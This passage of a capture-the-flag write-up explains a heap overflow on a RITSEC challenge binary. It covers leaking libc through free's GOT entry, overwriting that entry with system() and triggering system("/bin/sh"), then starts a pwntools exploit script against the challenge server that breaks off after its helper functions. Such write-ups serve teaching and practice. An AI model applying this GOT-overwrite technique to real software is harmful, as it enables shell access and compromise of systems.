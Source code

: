 Next steps to have a leak:
- Free the second chunk (small bin) to populate `free@got.plt` with the address of free() in the LibC.
- Edit the first chunk to overflow into the second freed chunk to overwrite the `name` address with the GOT address of free(). (We must take care of the function pointer located before the name address because the function is called when we trigger `Print person`)
- Call `Print person` to leak the LibC address of free().

Then we will call system("/bin/sh") using the following steps:
- Edit the first chunk, created before, to overwrite the address of name with the GOT address of free() ;
- Edit the second chunk to overwrite the GOT address of free() with the address of system() ;
- Edit again the first chunk to overwrite the address of the name with the one of "/bin/sh", obtained by leaking the LibC ;
- Delete again the second person to call free() and trigger system("/bin/sh") ;

### Exploitation

I use the following exploit to get the flag:
```py
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-

from pwn import *
import os


context(arch="i386", os="linux", endian="little")


class Pwn:
    def __init__(self):
        self.e = ELF("./pwn2")
        self.libc = ELF("./libc.so.6")
        self.p = None

    def start_binary(self):
        self.p = remote("fun.ritsec.club", 1337)
        self.p.recvuntil("choice: ")

    def create(self, length, name, age):
        self.p.sendline("1")
        self.p.recvuntil("length: ")
        self.p.sendline(str(length))
        self.p.recvuntil("name: ")
        self.p.sendline(name)
        self.p.recvuntil("age: ")
        self.p.sendline(str(age))
        self.p.recvuntil("choice: ")

    def edit(self, index, length, name):
        self.p.sendline("2")
        self.p.recvuntil("(0-based): ")
        self.p.sendline(str(index))
        self.p.recvuntil("length: ")
        self.p.sendline(str(length))
        self.p.recvuntil("name: ")
        self.p.sendline(name)
        self.p.recvuntil("choice: ")

    def view(self, index):
        self.p.sendline("3")
        self.p.recvuntil("(0-based): ")
        self.p.sendline(str(index))
```